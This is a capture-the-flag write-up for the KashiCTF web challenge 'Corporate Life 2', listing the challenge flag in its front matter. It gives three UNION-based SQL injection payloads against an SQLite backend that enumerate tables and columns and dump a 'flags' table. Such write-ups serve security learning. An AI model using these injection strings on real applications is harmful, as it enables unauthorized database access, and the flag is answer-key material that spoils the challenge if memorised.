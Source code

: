 ```yaml
---
title: "Corporate Life 2"
category: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: KashiCTF{did_some_trolling_right_there_vSVU9bzY}
---
```

> ~

---

Continuation of `Corporate Life 1`, where the same payload did not return a flag. Instead, i attempted to enumerate the database structure to locate relevant tables.

## Database Enumeration

To identify tables in the database, i used the following **SQL injection** payload:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table' --"
}
```

Once the table names were retrieved, i focused on the `flags` table and attempted to enumerate its columns using:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags') --"
}
```

## Extracting the Flag

After identifying the `secret_flag` column in the `flags` table, I extracted its contents with the following payload:

```json
{
  "filter": "1' UNION SELECT request_id, secret_flag, NULL, NULL, NULL, NULL FROM flags --"
}
```

This successfully revealed the flag.
